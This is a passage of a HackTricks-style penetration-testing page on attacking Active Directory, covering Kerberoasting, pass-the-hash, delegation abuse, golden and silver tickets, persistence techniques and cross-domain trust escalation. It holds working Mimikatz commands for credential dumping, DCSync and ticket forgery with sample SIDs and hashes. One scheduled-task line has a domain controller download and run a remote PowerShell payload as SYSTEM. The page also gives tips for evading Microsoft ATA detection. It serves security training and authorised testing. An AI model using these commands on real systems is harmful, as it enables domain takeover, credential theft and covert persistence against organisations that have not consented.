The goal of **Kerberoasting **is to harvest** TGS tickets for services that run on behalf of user accounts** in the AD, not computer accounts. Thus, **part **of these TGS **tickets **are **encrypted **with **keys **derived from user passwords. As a consequence, their credentials could be **cracked offline**. You can know that a **user account** is being used as a **service** because the property **"ServicePrincipalName"** is **not null**.**Find more information about this attack **[**in the Kerberoast page**](https://book.hacktricks.xyz/windows/active-directory-methodology/kerberoast)**.**

##

Local Privilege Escalation

If you have compromised credentials or a session as a regular domain user and you have **access **with this user to **any machine in the domain** you should try to find your way to **escalate privileges locally**. This is because only with admin privileges you will be able to **dump hashes of other users** in memory (LSASS) and locally (SAM). There is a complete page in this book about [**local privilege escalation in Windows**](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation) and a**  **[**checklist**](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation). Also, don't forget to try**  **[**WinPEAS**](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite).

##

Win-RM

Once you have obtained some credentials you could check if you have **access **to any **machine **using the **win-rm service**.[**More information about how to use and abuse win-rm here.**](https://book.hacktricks.xyz/pentesting/5985-5986-pentesting-winrm)**​**

#

Privesc on Active Directory (Some "privileged" Creds/Session)

**For the following techniques a regular domain user is not enough, you need some special privileges/credentials to perform these attacks.**

##

Hash extraction

Hopefully you have managed to **compromise some local admin** account using [ASREPROast](https://book.hacktricks.xyz/windows/active-directory-methodology/asreproast), [Password Spraying](https://book.hacktricks.xyz/windows/active-directory-methodology/password-spraying), [Kerberoast](https://book.hacktricks.xyz/windows/active-directory-methodology/kerberoast), [Responder](https://book.hacktricks.xyz/pentesting/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks), [EvilSSDP](https://book.hacktricks.xyz/pentesting/pentesting-network/spoofing-ssdp-and-upnp-devices), [Enumerating](https://book.hacktricks.xyz/windows/active-directory-methodology#enumerating-active-directory)... or [escalating privileges locally](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation). Then, its time to dump all the hashes in memory and locally. [**Read this page about different ways to obtain the hashes.**](https://book.hacktricks.xyz/windows/stealing-credentials)**​**

##

**Pass the Hash**

**Once you have the hash of a user**, you can use it to **impersonate **it. You need to use some **tool **that will **perform **the **NTLM authentication using **that **hash**, **or **you could create a new **sessionlogon **and **inject **that **hash **inside the **LSASS**, so when any **NTLM authentication is performed**, that** hash will be used. **The last option is what mimikatz does.****[**More information about this attack and about how does NTLM works here.**](https://book.hacktricks.xyz/windows/ntlm#pass-the-hash)**​**

##

**Over Pass the Hash/Pass the Key**

This attack aims to **use the user NTLM hash to request Kerberos tickets**, as an alternative to the common Pass The Hash over NTLM protocol. Therefore, this could be especially **useful in networks where NTLM protocol is disabled** and only **Kerberos is allowed** as authentication protocol.[**More information about Over Pass the Hash/Pass the Key here.**](https://book.hacktricks.xyz/windows/active-directory-methodology/over-pass-the-hash-pass-the-key)**​**

##

**Pass the Ticket**

This attack is similar to Pass the Key, but instead of using hashes to request a ticket, the** ticket itself is stolen** and used to authenticate as its owner.****[**More information about Pass the Ticket here.**](https://book.hacktricks.xyz/windows/active-directory-methodology/pass-the-ticket)**​**

##

**MSSQL Trusted Links**

If a user has privileges to** access MSSQL instances**, he could be able to use it to** execute commands** in the MSSQL host (if running as SA). Also, if a MSSQL instance is trusted (database link) by a different MSSQL instance. If the user has privileges over the trusted database, he is going to be able to** use the trust relationship to execute queries also in the other instance**. These trusts can be chained and at some point the user might be able to find a misconfigured database where he can execute commands.**The links between databases work even across forest trusts.**[**More information about this technique here.**](https://book.hacktricks.xyz/windows/active-directory-methodology/mssql-trusted-links)**​**

##

**Unconstrained Delegation**

**If you find any Computer object with the attribute **[ADS_UF_TRUSTED_FOR_DELEGATION](https://msdn.microsoft.com/en-us/library/aa772300(v=vs.85).aspx) and you have domain privileges in the computer, you will be able to dump TGTs from memory of every users that logins onto the computer. So, if a **Domain Admin logins onto the computer**, you will be able to dump his TGT and impersonate him using [Pass the Ticket](https://book.hacktricks.xyz/windows/active-directory-methodology/pass-the-ticket). Thanks to constrained delegation you could even** automatically compromise a Print Server** (hopefully it will be a DC).[**More information about this technique here.**](https://book.hacktricks.xyz/windows/active-directory-methodology/unconstrained-delegation)**​**

##

**Constrained Delegation**

If a user or computer is allowed for "Constrained Delegation" it will be able to **impersonate any user to access some services in a computer**. Then, if you **compromise the hash** of this user/computer you will be able to **impersonate any user** (even domain admins) to access some services.[**More information about this attacks and some constrains here.**](https://book.hacktricks.xyz/windows/active-directory-methodology/constrained-delegation)**​**

##

**ACLs Abuse**

The compromised user could have some** interesting privileges over some domain objects** that could let you **move **laterally/**escalate **privileges.[**More information about interesting privileges here.**](https://book.hacktricks.xyz/windows/active-directory-methodology/acl-persistence-abuse)**​**

##

Printer Spooler service abuse

If you can find any** Spool service listening** inside the domain, you may be able to **abuse **is to **obtain new credentials** and **escalate privileges**.[**More information about how to find a abuse Spooler services here.**](https://book.hacktricks.xyz/windows/active-directory-methodology/printers-spooler-service-abuse)**​**

#

**Dumping Domain Credentials**

Once you get **Domain Admin **privileges, you can **dump **all the **domain database**.

Copy

Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

**More information about **[**DCSync attack can be found here**](https://book.hacktricks.xyz/windows/active-directory-methodology/dcsync)**. More information about**[** how to steal the ntdis.dir (Domain database) can be found here**](https://book.hacktricks.xyz/windows/stealing-credentials)**.**

#

**Persistence**

**Some of the techniques discussed before can be used for persistence. For example you could make a user vulnerable to **[**ASREPRoast **](https://book.hacktricks.xyz/windows/active-directory-methodology/asreproast)**or to **[**Kerberoast**](https://book.hacktricks.xyz/windows/active-directory-methodology/kerberoast)**.**

##

**Golden Ticket**

A valid **TGT as any user **can be created **using the NTLM hash of the krbtgt AD account**. The advantage of forging a TGT instead of TGS is being **able to access any service** (or machine) in the domain ad the impersonated user.

**​**[**More information about Golden Ticket here.**](https://book.hacktricks.xyz/windows/active-directory-methodology/golden-ticket)**​**

##

**Silver Ticket**

The Silver ticket attack is based on **crafting a valid TGS for a service once the NTLM hash of service is owned** (like the **PC account hash**). Thus, it is possible to** gain access to that service** by forging a custom TGS **as any user** (like privileged access to a computer).[**More information about Silver Ticket here.**](https://book.hacktricks.xyz/windows/active-directory-methodology/silver-ticket)**​**

##

**AdminSDHolder Group**

The Access Control List (ACL) of the **AdminSDHolder **object is used as a template to **copy**  **permissions **to **all “protected groups”** in Active Directory and their members. Protected groups include privileged groups such as Domain Admins, Administrators, Enterprise Admins, and Schema Admins. By default, the ACL of this group is copied inside all the "protected groups". This is done to avoid intentional or accidental changes to these critical groups. However, if an attacker modifies the ACL of the group **AdminSDHolder **for example, giving full permissions to a regular user, this user will have full permissions on all the groups inside the protected group (in an hour). And if someone tries to delete this user from the Domain Admins (for example) in an hour or less, the user will be back in the group.****[**More information about AdminSDHolder Group here.**](https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges#adminsdholder-group)**​**

##

**DSRM Credentials**

There is a **local administrator** account inside each **DC**. Having admin privileges in this machine, you can use mimikatz to **dump the local Administrator hash**. Then, modifying a registry to **activate this password **so you can remotely access to this local Administrator user.****[**More information about DSRM Credentials here.**](https://book.hacktricks.xyz/windows/active-directory-methodology/dsrm-credentials)​

##

**ACL Persistence**

You could **give **some **special permissions **to a **user **over some specific domain objects that will let the user **escalate privileges in the future**.[**More information about interesting privileges here.**](https://book.hacktricks.xyz/windows/active-directory-methodology/acl-persistence-abuse)**​**

##

**Security Descriptors**

The **security descriptors **are used to **store **the **permissions **an **object **have **over **an **object**. If you can just **make **a **little change **in the **security descriptor **of an object, you can obtain very interesting privileges over that object without needing to be member of a privileged group.****[**More information about Security Descriptors here.**](https://book.hacktricks.xyz/windows/active-directory-methodology/security-descriptors)**​**

##

Skeleton Key

**Modify LSASS **in memory to create a **master password **that will work for any account in the domain.[**More information about Skeleton Key here.**](https://book.hacktricks.xyz/windows/active-directory-methodology/skeleton-key)**​**

##

**Custom SSP**

​[Learn what is a SSP (Security Support Provider) here.](https://book.hacktricks.xyz/windows/credentials#security-support-provider-interface-sspi)You can create you **own SSP **to **capture** in **clear text **the **credentials **used to access the machine.****[**More information about Custom SSP here.**](https://book.hacktricks.xyz/windows/active-directory-methodology/custom-ssp)​

##

**DCShadow**

It registers a **new Domain Controller **in the AD and uses it to **push attributes **(SIDHistory, SPNs...) on specified objects **without **leaving any **logs **regarding the **modifications**. You **need DA **privileges and be inside the **root domain**. Note that if you use wrong data, pretty ugly logs will appear.****[**More information about DCShadow here.**](https://book.hacktricks.xyz/windows/active-directory-methodology/dcshadow)​

#

**Forest Privilege Escalation - **Domain Trusts

Microsoft considers that the **domain isn't a Security Boundary**, the **Forest is the security Boundary**. This means that **if you compromise a domain inside a Forest you are going to be able to compromise the entire Forest**.

##

Basic Information

At a high level, a [**domain trust**](http://technet.microsoft.com/en-us/library/cc759554(v=ws.10).aspx) establishes the ability for** users in one domain to authenticate** to resources or act as a [security principal](https://technet.microsoft.com/en-us/library/cc780957(v=ws.10).aspx)  **in another domain**.

Essentially, all a trust does is **linking up the authentication systems of two domains** and allowing authentication traffic to flow between them through a system of referrals. When **2 domains trust each other they exchange keys**, these **keys** are going to be **saved **in the **DCs **of **each domains** (**1 key per trust direction**) and the keys will be the base of the trust.

When a **user **tries to **access **a **service **on the **trusting domain **it will request an **inter-realm TGT** to the DC of its domain. The DC wills serve the client this **TGT **which would be **encrypted/signed** with the **inter-realm**  **key **(the key both domains **exchanged**). Then, the **client **will **access **the **DC of the other domain **and will **request **a **TGS **for the service using the** inter-realm TGT**. The **DC **of the trusting domain will **check **the **key **used, if it's ok, it will** trust everything in that ticket** and will serve the TGS to the client.

##

Different trusts

It's important to notice that **a trust can be 1 way or 2 ways**. In the 2 ways options, both domains will trust each other, but in the** 1 way** trust relation one of the domains will be the **trusted **and the other the **trusting **domain. In the last case,** you will only be able to access resources inside the trusting domain from the trusted one**.

A trust relationship can also be **transitive **(A trust B, B trust C, then A trust C) or **non-transitive**.

**Different trusting relationships:**

- **Parent/Child** – part of the same forest – a child domain retains an implicit two-way transitive trust with its parent. This is probably the most common type of trust that you’ll encounter.
- **Cross-link** – aka a “shortcut trust” between child domains to improve referral times. Normally referrals in a complex forest have to filter up to the forest root and then back down to the target domain, so for a geographically spread out scenario, cross-links can make sense to cut down on authentication times.
- **External **– an implicitly non-transitive trust created between disparate domains. “[External trusts provide access to resources in a domain outside of the forest that is not already joined by a forest trust.](https://technet.microsoft.com/en-us/library/cc773178(v=ws.10).aspx)” External trusts enforce SID filtering, a security protection covered later in this post.
- **Tree-root **– an implicit two-way transitive trust between the forest root domain and the new tree root you’re adding. I haven’t encountered tree-root trusts too often, but from the [Microsoft documentation](https://technet.microsoft.com/en-us/library/cc773178(v=ws.10).aspx), they’re created when you when you create a new domain tree in a forest. These are intra-forest trusts, and they [preserve two-way transitivity](https://technet.microsoft.com/en-us/library/cc757352(v=ws.10).aspx) while allowing the tree to have a separate domain name (instead of child.parent.com).
- **Forest** – a transitive trust between one forest root domain and another forest root domain. Forest trusts also enforce SID filtering.
- **MIT** – a trust with a non-Windows [RFC4120-compliant](https://tools.ietf.org/html/rfc4120) Kerberos domain. I hope to dive more into MIT trusts in the future.

##

Attack Path

1. **Enumerate **the trusting relationships

2. Check if any **security principal** (user/group/computer) has **access **to resources of the **other domain**, maybe by ACE entries or by being in groups of the other domain. Look for **relationships across domains **(the trust was created for this probably).

    1. kerberoast in this case could be another option.
3. **Compromise **the **accounts** which can **pivot **through domains.

There are three **main** ways that security principals (users/groups/computer) from one domain can have access into resources in another foreign/trusting domain:

- They can be added to **local groups** on individual machines, i.e. the local “Administrators” group on a server.
- They can be added to **groups in the foreign domain**. There are some caveats depending on trust type and group scope, described shortly.
- They can be added as principals in an **access control list**, most interesting for us as principals in **ACEs **in a **DACL**. For more background on ACLs/DACLs/ACEs, check out the “[An ACE Up The Sleeve](https://specterops.io/assets/resources/an_ace_up_the_sleeve.pdf)” whitepaper.

##

Child-to-Parent forest privilege escalation

Also, notice that there are **2 trusted keys**, one for *Child --> Parent* and another one for P*arent --> Child*.

Copy

8Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local

9Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'

Copy

10Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:7ef5be456dc8d7450fb8f5f7348746c5 /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi"'

11/domain:<Current domain>
12/sid:<SID of current domain>
13/sids:<SID of the Enterprise Admins group of the parent domain>
14/rc4:<Trusted key>
15/user:Administrator
16/service:<target service>
17/target:<Other domain>
18/ticket:C:\path\save\ticket.kirbi

For finding the **SID **of the** "Enterprise Admins"** group you can find the **SID **of the **root domain** and set it in S-1-5-21*root domain*-519. For example, from root domain SID *S-1-5-21-280534878-1496970234-700767426* the "Enterprise Admins"group SID is *S-1-5-21-280534878-1496970234-700767426-519*

​http://www.harmj0y.net/blog/redteaming/a-guide-to-attacking-domain-trusts/​

Copy

19.\asktgs.exe C:\AD\Tools\kekeo_old\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local

20 .\kirbikator.exe lsa .\CIFS.mcorpdc.moneycorp.local.kirbi
21  ls \\mcorp-dc.moneycorp.local\c$

Escalate to DA of root or Enterprise admin using the KRBTGT hash of the compromised domain:

Copy

22Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-211874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234700767426-519 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /ticket:C:\AD\Tools\krbtgt_tkt.kirbi"'

23Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'
24gwmi -class win32_operatingsystem -ComputerName mcorpdc.moneycorp.local

25schtasks /create /S mcorp-dc.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck114" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1''')'"

26schtasks /Run /S mcorp-dc.moneycorp.local /TN "STCheck114"

##

External Forest Domain Privilege escalation

In this case you can **sign with **the **trusted **key a **TGT impersonating **the **Administrator **user of the current domain. In this case you **won't always get Domain Admins privileges in the external domain**, but **only **the privileges the Administrator user of your current domain **was given** in the external domain.

Copy

Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<current domain> /SID:<current domain SID> /rc4:<trusted key> /target:<external.domain> /ticket:C:\path\save\ticket.kirbi"'

##

Domain trust abuse mitigation

**SID Filtering:**

- Avoid attacks which abuse SID history attribute across forest trust.
- Enabled by default on all inter-forest trusts. Intra-forest trusts are assumed secured by default (MS considers forest and not the domain to be a security boundary).
- But, since SID filtering has potential to break applications and user access, it is often disabled.
- Selective Authentication
    - In an inter-forest trust, if Selective Authentication is configured, users between the trusts will not be automatically authenticated. Individual access to domains and servers in the trusting domain/forest should be given.

**​**[**More information about domain trusts in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/child-domain-da-to-ea-in-parent-domain)**​**

#

Some General Defenses

**​**[**Learn more about how to protect credentials here.**](https://book.hacktricks.xyz/windows/stealing-credentials/credentials-protections)**Please, find some migrations against each technique in the description of the technique.**

- Not allow Domain Admins to login on any other hosts apart from Domain Controllers
- Never run a service with DA privileges
- If you need domain admin privileges, limit the time: `Add-ADGroupMember -Identity ‘Domain Admins’ -Members newDA -MemberTimeToLive (New-TimeSpan -Minutes 20) `

##

Deception

- Password does not expire
- Trusted for Delegation
- Users with SPN
- Password in description
- Users who are members of high privilege groups
- Users with ACL rights over other users, groups or containers
- Computer objects
- ...
- ​https://github.com/samratashok/Deploy-Deception​
    - `Create-DecoyUser -UserFirstName user -UserLastName manager-uncommon -Password Pass@123 | DeployUserDeception -UserFlag PasswordNeverExpires -GUID d07da11f-8a3d-42b6-b0aa-76c962be719a -Verbose `

#

How to identify deception

**For user objects:**

- ObjectSID (different from the domain)
- lastLogon, lastlogontimestamp
- Logoncount (very low number is suspicious)
- whenCreated
- Badpwdcount (very low number is suspicious)

**General:**

- Some solutions fill with information in all the possible attributes. For example, compare the attributes of a computer object with the attribute of a 100% real computer object like DC. Or users against the RID 500 (default admin).
- Check if something is too good to be true
- ​https://github.com/JavelinNetworks/HoneypotBuster​

##

Bypassing Microsoft ATA detection

###

User enumeration

ATA only complains when you try to enumerate sessions in the DC, so if you don't look for sessions in the DC but in the rest of the hosts, you probably won't get detected.

###

Tickets impersonation creation (Over pass the hash, golden ticket...)

Always create the tickets using the **aes **keys also because what ATA identifies as malicious is the degradation to NTLM.

###

DCSync

If you don't execute this from a Domain Controller, ATA is going to catch you, sorry.

#

More Tools

- ​[Powershell script to do domain auditing automation](https://github.com/phillips321/adaudit)​
- ​[Python script to enumerate active directory](https://github.com/ropnop/windapsearch)​
- ​[Python script to enumerate active directory](https://github.com/CroweCybersecurity/ad-ldap-enum)​

​

​[**Buy me a coffee here**](https://www.buymeacoffee.com/carlospolop)**​**

[ Previous RottenPotato](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/rottenpotato)[ Next  Abusing Active Directory ACLs/ACEs   ](https://book.hacktricks.xyz/windows/active-directory-methodology/acl-persistence-abuse)

Bea Gil

CPol
Last updated 3 weeks ago

Contents

[Basic overview](https://book.hacktricks.xyz/windows/active-directory-methodology#basic-overview)[Kerberos Authentication](https://book.hacktricks.xyz/windows/active-directory-methodology#kerberos-authentication)[Recon Active Directory (No creds/sessions)](https://book.hacktricks.xyz/windows/active-directory-methodology#recon-active-directory-no-creds-sessions)[User enumeration](https://book.hacktricks.xyz/windows/active-directory-methodology#user-enumeration)[Knowing one or several usernames](https://book.hacktricks.xyz/windows/active-directory-methodology#knowing-one-or-several-usernames)[Enumerating Active Directory (Some creds/Session)](https://book.hacktricks.xyz/windows/active-directory-methodology#enumerating-active-directory-some-creds-session)[Enumeration](https://book.hacktricks.xyz/windows/active-directory-methodology#enumeration)[Kerberoast](https://book.hacktricks.xyz/windows/active-directory-methodology#kerberoast)[Local Privilege Escalation](https://book.hacktricks.xyz/windows/active-directory-methodology#local-privilege-escalation)[Win-RM](https://book.hacktricks.xyz/windows/active-directory-methodology#win-rm)[Privesc on Active Directory (Some "privileged" Creds/Session)](https://book.hacktricks.xyz/windows/active-directory-methodology#privesc-on-active-directory-some-privileged-creds-session)[Hash extraction](https://book.hacktricks.xyz/windows/active-directory-methodology#hash-extraction)[Pass the Hash](https://book.hacktricks.xyz/windows/active-directory-methodology#pass-the-hash)[Over Pass the Hash/Pass the Key](https://book.hacktricks.xyz/windows/active-directory-methodology#over-pass-the-hash-pass-the-key)[Pass the Ticket](https://book.hacktricks.xyz/windows/active-directory-methodology#pass-the-ticket)[MSSQL Trusted Links](https://book.hacktricks.xyz/windows/active-directory-methodology#mssql-trusted-links)[Unconstrained Delegation](https://book.hacktricks.xyz/windows/active-directory-methodology#unconstrained-delegation)[Constrained Delegation](https://book.hacktricks.xyz/windows/active-directory-methodology#constrained-delegation)[ACLs Abuse](https://book.hacktricks.xyz/windows/active-directory-methodology#acls-abuse)[Printer Spooler service abuse](https://book.hacktricks.xyz/windows/active-directory-methodology#printer-spooler-service-abuse)[Dumping Domain Credentials](https://book.hacktricks.xyz/windows/active-directory-methodology#dumping-domain-credentials)[Persistence](https://book.hacktricks.xyz/windows/active-directory-methodology#persistence)[Golden Ticket](https://book.hacktricks.xyz/windows/active-directory-methodology#golden-ticket)[Silver Ticket](https://book.hacktricks.xyz/windows/active-directory-methodology#silver-ticket)[AdminSDHolder Group](https://book.hacktricks.xyz/windows/active-directory-methodology#adminsdholder-group)[DSRM Credentials](https://book.hacktricks.xyz/windows/active-directory-methodology#dsrm-credentials)[ACL Persistence](https://book.hacktricks.xyz/windows/active-directory-methodology#acl-persistence)[Security Descriptors](https://book.hacktricks.xyz/windows/active-directory-methodology#security-descriptors)[Skeleton Key](https://book.hacktricks.xyz/windows/active-directory-methodology#skeleton-key)[Custom SSP](https://book.hacktricks.xyz/windows/active-directory-methodology#custom-ssp)[DCShadow](https://book.hacktricks.xyz/windows/active-directory-methodology#dcshadow)[Forest Privilege Escalation - Domain Trusts](https://book.hacktricks.xyz/windows/active-directory-methodology#forest-privilege-escalation-domain-trusts)[Basic Information](https://book.hacktricks.xyz/windows/active-directory-methodology#basic-information)[Different trusts](https://book.hacktricks.xyz/windows/active-directory-methodology#different-trusts)[Attack Path](https://book.hacktricks.xyz/windows/active-directory-methodology#attack-path)[Child-to-Parent forest privilege escalation](https://book.hacktricks.xyz/windows/active-directory-methodology#child-to-parent-forest-privilege-escalation)[External Forest Domain Privilege escalation](https://book.hacktricks.xyz/windows/active-directory-methodology#external-forest-domain-privilege-escalation)[Domain trust abuse mitigation](https://book.hacktricks.xyz/windows/active-directory-methodology#domain-trust-abuse-mitigation)[Some General Defenses](https://book.hacktricks.xyz/windows/active-directory-methodology#some-general-defenses)[Deception](https://book.hacktricks.xyz/windows/active-directory-methodology#deception)[How to identify deception](https://book.hacktricks.xyz/windows/active-directory-methodology#how-to-identify-deception)[Bypassing Microsoft ATA detection](https://book.hacktricks.xyz/windows/active-directory-methodology#bypassing-microsoft-ata-detection)[More Tools](https://book.hacktricks.xyz/windows/active-directory-methodology#more-tools)